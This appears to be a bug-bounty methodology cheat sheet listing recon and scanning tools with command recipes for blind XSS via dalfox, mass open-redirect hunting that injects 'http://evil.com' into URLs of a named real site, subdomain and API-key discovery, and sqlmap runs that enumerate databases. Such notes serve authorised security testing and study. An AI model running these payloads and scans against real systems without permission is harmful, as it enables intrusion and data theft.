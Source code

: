 - https://github.com/maurosoria/dirsearch
- https://github.com/MobSF/Mobile-Security-Framework-MobSF
- https://github.com/DanMcInerney/xsscrapy

- Burp Suite
- SecLists
- whatcms
- Striker
- OWASP ZAP
- Dirb
- Scrapy
- Dirbuster
- Gobuster
- Wfuzz
- CyberChef
- Sublist3r	
- Massdns
- Dnsenum
- Knockpy
- nmap 
- Masscan
- Sn1per
- XSStrike
- Sqlmap
- Wpscan
- Joomscan
- CMSmap
- Builtwith
- Wappalyzer
- wafw00f


- passive hunter
- a-mass
- subfinder
- httpx
- aquatone
- dalfox
- nuclei
- open redirect x
- massdns
- paramspider

### XSS Payloads (xsshunter)
- xalgord.xss.ht

## file upload vulnerability test
- https://github.com/epinna/weevely3

## XSS recon methodology
▶ cat domains.txt | waybackurls > urls

```
cat urls.txt        --> read the file
| kxss              --> filter special characters
| sed 's/=.*/=/'    --> remove everything after = ,add = 
| sed 's/URL: //'   --> remove URL: and white space
| dalfox pipe       --> dalfox tool for xss payload
-b xalgord.xss.ht   --> BXSS payload adder.
```

## Open Redirect Mass Hunt
- tool = ragno, qsreplace
```
python3 ragno.py -d intensedebate.com -s -q -o ragno_urls.txt
```
```
cat ragno_urls.txt | grep -a -i \=http | wc -w
```
```
cat ragno_urls.txt | grep -a -i \=http > potential_openredirect_vun.txt
```
```
cat potential_openredirect_vun.txt | qsreplace "http://evil.com" | wc -w
```
```
cat potential_openredirect_vun.txt | qsreplace "http://evil.com" > unique_potential_openredirect.txt
```
```
cat unique_potential_openredirect.txt | while read target_urls do; do curl -s -L $target_urls -I | grep "evil.com" && echo "[Vulnerable] $target_urls \n"; done
```



- Example: One Liner for Hunting Mass Open Redirect

```
python3 ragno.py -d test.vulnweb.com -s -q -o ragno_urls.txt | cat ragno_urls.txt | grep -a -i \=http | qsreplace "http://evil.com" | while read target_url do; do curl -s -L $target_url -I | grep "evil.com" && echo "[+] [Vulnerable] $target_url \n"; done

```


## Amass Command

```
amass enum -brute -o output.txt -d example.com -v
```

## Detect Low Hanging Bugs and Sensitive Information like API Keys, Secrets etc. including JS Files and HTML Pages


First run Amass Scan and save its output and then run Sublist3r with bruteforce mode and also save its output in different file. 
Now open a Website such as https://www.textfixer.com/tools/remove-duplicate-lines.php to remove duplicate subdomains.

Tool: https://github.com/BitTheByte/Eagle

Basic Usage:
```
python3 main.py -f domains.txt
```

Advanced Usage:
```
python3 main.py -f domains.txt -w 10 --db output.db.json
```

To check API keys if they vulnerable or not, use a tool such as gmapsapiscanner, it is usefull to save the time by automating the process and also if it gets any Vulnerable API, it will generate its POC itself.

Tool: https://github.com/ozguralp/gmapsapiscanner

Usage:
```
python3 maps_api_scanner_python3.py
```

## SQL Injection Methodologies
*try login with admin admin and send login request  to burp

*do an active scan

if show SQL injection with parameter 

#POC 

copy request in txt 

and on sqlmap 
```
sqlmap -r sql.txt --force-ssl --level 5 --risk 3 --dbs -p parameter
```
and you have a valid SQL INJ 😎😎
